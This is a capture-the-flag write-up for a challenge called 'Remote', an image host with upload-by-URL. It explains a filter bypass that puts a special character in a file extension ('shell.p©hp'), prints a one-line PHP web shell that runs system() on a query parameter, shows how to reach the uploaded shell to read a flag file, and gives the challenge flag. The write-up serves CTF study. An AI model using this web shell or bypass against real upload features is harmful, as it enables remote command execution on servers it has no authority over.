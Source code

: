 # Remote

Author: `tacex`

I just released the newest version of my online image repository.

Patch notes:
- Added ability to upload via URL

Note: The flag is located in `/var/www/`.

## Solution

In the `README.md` file as well as the given source code in `index.php`, we can see that there is a feature which allows upload with URL. In the source code in `index.php`, we can see that before uploading the file from the URL, the URL is filtered with PHP functions `preg_match` and `filter_var`. Due to the order of the filtering functions being used, we can bypass the filter by using a character which would normally be filtered by `filter_var` inside of the file extension, which will allow the file name to bypass both filters by first tricking `preg_match` and leaving us with a completed file name after `filter_var`.

The payload used to upload the file:
```
http://172.17.0.1:10001/shell.p©hp
```

The code of shell.php:
```php
<?php echo system($_GET['cmd']);?>
```

Keep in mind that we need to host the file, which can be done through a variety of methods.

In the source code, we can see where the file is uploaded to, which is based on the cookie `PHPSESSID` and a randomized filename.

After uploading the file `shell.php`, we can access the file via `https://remote.tamuctf.com/uploads/<PHPSESSID>/<filename>.php`

To execute commands, we can access the URL `https://remote.tamuctf.com/uploads/<PHPSESSID>/<filename>.php?cmd=<command>`.

To read the flag: `https://remote.tamuctf.com/uploads/<PHPSESSID>/<filename>.php?cmd=cat /tmp/flag-<random data>.txt`.

Flag: `gigem{new_features_means_new_opportunities}`
